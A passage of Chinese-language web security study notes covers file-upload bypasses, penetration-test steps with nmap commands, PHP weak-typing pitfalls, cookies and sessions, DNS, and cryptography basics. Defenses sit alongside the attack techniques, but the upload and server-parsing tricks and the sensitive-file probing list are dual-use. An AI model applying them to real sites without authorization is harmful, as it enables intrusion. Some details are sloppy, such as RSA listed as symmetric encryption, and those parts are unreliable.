- 判断上传文件的文件头（文件MIME类型）
- 将php脚本附在文件头之后
- exiftools附加在exif部分
- 但是最后的后缀依然需要改为php，才能被web容器解析
- 黑名单后缀；
- 服务器解析：
- Apache文件解析问题：从后往前解析，直到遇见一个它认识的文件类型
- IIS解析：截断符号；PUT功能导致的文件上传（条件：目录支持写权限+开启了WebDav+勾选了脚本资源访问）
- PHP CGI解析：http://www.xxx.com/path/test.jpg/notexist.php（notexist.php不存在，所以往前递归查询路径，将test.jpg当作php执行）修改配置cgi.fix_pathinfo=0
- 防御
- 文件上传目录设置为不可执行（文件上传后做独立存储，做静态文件处理）— web容器无法解析该目录下的文件
- 通过白名单判断文件类型（图片可以做压缩和resize处理，破坏其中的可能包含的html或php代码）
- 使用随机随改写文件名和文件路径（极大增加攻击成本 攻击者不知道路径和改写后的文件名就无法直接访问该文件）
渗透测试流程
- 信息收集：
- Whois查询、子域名、真实目标ip、旁站C段查询（常用的工具有webscancc，NmapZenmap）、、服务器系统版本（nmap -O -Pn）、中间件信息（whatweb）、端口扫描和服务类型探测(nmap -sV -Pn)、数据库类型、 google hacking、历史漏洞收集（乌云）
- 常见的网络服务：Telnet（明文传输 23端口）、SSH（22 SSH弱口令），ftp（21）、数据库服务、远程桌面连接（3389）、DNS(53)、邮件服务（SMTP 25 POP3 110 IMAP 143）
- 真实IP：判断网站是否有CDN
- web信息收集：CMS类型、敏感目录/文件(.git .svn .DB_store、WEB-INF/web.xml、.mdb、.excel、.word、.zip、.rar .txt)
- Whois查询、子域名、真实目标ip、旁站C段查询（常用的工具有webscancc，NmapZenmap）、、服务器系统版本（nmap -O -Pn）、中间件信息（whatweb）、端口扫描和服务类型探测(nmap -sV -Pn)、数据库类型、 google hacking、历史漏洞收集（乌云）
- 漏洞发现
- 漏洞扫描：Nessus、 AWVS、Sqlmap
- 手工测试：sql注入、xss、xxe、逻辑漏洞、csrf、ssrf、未授权访问、各种框架漏洞、文件包含、命令注入等
- 漏洞利用：由浅入深、旁敲侧击
- 后渗透测试：内网渗透、权限维持、提权提升等
- 渗透报告编写
PHP安全
弱类型对变量的类型没有限制
比较操作符：null == false ‘’ ==false ‘0’ == 0 ‘abcd’ == 0 ‘1abcded’ == 1
hash比较：开头为0e将会转换为科学记数法 md5 collision 第三种类型的转换为文件（md5作为文件校验已经不可靠了 两张图片 相同的md5值）
内置函数参数的松散性：
- md5传入数组，无法处理数组返回false
- strcmp比较两个str，如果传入数组返回null == false == 0
bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )没有第三个参数时将会松散的判断，有strict参数时才会判断类型
https://www.freebuf.com/articles/web/197013.html
php5与php7在安全上的区别：
- preg_replace不再支持/e参数
- mysql_*全部被移除 都是预编译了
- unserialize函数增加白名单参数设置类名（可选的）
- 十六进制字符串不再被认为是数字
- assert不再默认执行代码（菜刀在实现文件管理器时就是assert），不过可以用eval替换
变量覆盖：自定义的参数值替换原有的变量值
- $$（可变变量 一个可变变量获取普通变量的值作为其变量名）、extract、parse_str使用不当
- 常用漏洞场景：foreach遍历数组结合$$
Session与Cookie
相同点：
- 产生原因是HTTP协议的无状态，于是两者本质就是记录状态
都是用来进行会话跟踪
不同点：
Cookie机制采用的是在客户端保持状态的方案，用来记录用户的一些信息，也是实现Session的一种方式Session机制采用的是在服务器端保持状态的方案，用来跟踪用户的状态，可以保存在集群、数据库、文件中- session可以存储多种数据类型，而cookie只能存储字符串
- 对于一些安全性比较高的数据，cookie需要进行格式化和加密处理，而session存储在服务器端，安全性相对较高
Cookie：
cookie其实是一小段文本信息，客户端请求服务器，服务器需要记录该用户的状态，就在响应中添加cookie信息（set-cookie字段），客户端收到保存起来，下次请求会带上cookie，服务器检查cookie，用来辨认用户的状态
cookie的内容：名称、值、过期日期、域名和路径(用来限制cookie的作用范围)
Set-Cookie: =[; =][; expires=][; domain=][; path=][; secure][; HttpOnly]设置了httpOnly客户端js就不能访问Cookie了 —XSS的防御（但并不是全能的，比如XST攻击，就可以通过发送Trace包获取Cookie）分为session cookie和持久cookie：seesion cookie存储在内存中，浏览器关闭会话页面就随之消亡；持久cookie存储在硬盘，为浏览器的不同进程所共享
Session：客户端访问服务器，服务器把客户端信息以session的形式存储，当客户端再次访问时，服务器会在session中查找该用户的状态
- 服务器是如何标示每个用户身份的呢？事实上，用户与服务器建立连接的时候，服务器就会给用户分配一个SeesionId
- 那SessionId是如何在客户端和浏览器之间传输的呢？其实这个传输的载体就是cookie（通常会见到的cookie中的PHPSESSID字段，有当然还有很多其他的名字）
- 如果浏览器禁用了Cookie，Session该如何传输？用下面两种方式
- URL重写：将sessionId直接附加在url后面
- 表单隐藏字段，就是服务器会自动修改表单，添加一个隐藏字段
DNS解析顺序
- 查询/etc/hosts有无映射
- 查看DNS客户端缓存
- 默认DNS服务器（本地DNS服务器）
- DNS服务器收到查询请求，如果要查询的域名在本地配置的区域资源中，则返回解析结果给客户机，此解析具有权威性
- 如果要查询的域名不由本地DNS服务器区域解析，但该服务器已经缓存了此网址的映射关系，则返回此映射，非权威性
- 根据本地DNS服务器是否设置转发器
- 未设置，则查询13台根服务器，如.com，然后下一级.qq.com 重复步骤知道找到www.qq.com
- 设置转发器，则将请求转发给上一级，然后重复之前的步骤 是否在本地区域资源-》是否缓存->是否配置转发-〉DNS根服务器->下一级…
- 最后都将结果返回未本地DNS服务器，由此DNS服务器再返回给客户机
DNS在进行区域传输的时候使用TCP协议，其它时候则使用UDP协议； （UDP适用于负载低（一般不超过512字节），响应速度快）
DNS的规范规定了2种类型的DNS服务器，一个叫主DNS服务器，一个叫辅助DNS服务器。在一个区中主DNS服务器从自己本机的数据文件中读取该区的DNS数据信息，而辅助DNS服务器则从区的主DNS服务器中读取该区的DNS数据信息。当一个辅助DNS服务器启动时，它需要与主DNS服务器通信，并加载数据信息，这就叫做区传送（zone transfer）。
区域传送时使用TCP，主要有一下两点考虑：
- 辅域名服务器会定时（一般时3小时）向主域名服务器进行查询以便了解数据是否有变动。如有变动，则会执行一次区域传送，进行数据同步。区域传送将使用TCP而不是UDP，因为数据同步传送的数据量比一个请求和应答的数据量要多得多。 （数据量大）
- TCP是一种可靠的连接，保证了数据的准确性。
密码学
柯克霍夫原则：除密钥之外，整个系统的一切都是公开的，这个密码体制也必须是安全的。（现代密码学公开加密和解密算法）
对称加密：序列密码、分组密码（DES、高级加密标准AES） RSA
非对称加密（公钥加密）：大整数分解、椭圆曲线、离散对数（基于某个复杂的数学难题）